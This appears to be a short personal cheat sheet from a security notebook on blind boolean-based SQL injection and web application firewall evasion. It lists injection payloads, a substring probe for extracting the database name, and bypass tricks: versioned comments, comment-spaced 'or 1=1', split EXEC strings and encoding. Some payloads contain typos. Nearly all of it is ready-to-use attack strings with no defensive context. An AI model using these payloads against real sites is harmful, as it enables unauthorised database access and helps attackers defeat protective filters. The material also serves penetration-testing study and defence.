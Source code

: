 # Blind Boolean based SQL & Evasion Techniques

## Blind Boolean based SQL

* 11' and 'N' = 'N TRUE
* 11' and 'N'= 'A False
* substring('Ahmed'.1.1)='A' => True

```
select substring(database(),1,1)='d'
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Evasion Techniques

* WAF
  * ' or 1-1 --+&#x20;
    * or 2>1
    * 'or 'hacktor'>'a'
  * '/\*!<mark style="color:red;">**12345**</mark>order\*/by 7#
  * url encode,hex etc..
  * EXEC('sele','ct')
  * "UNION       SELECT"
  * '/\*\***/or/\*\*/1/\*\*/=/\*\*/1/\*\*/**
  * **Hackbar => Cyberfox**
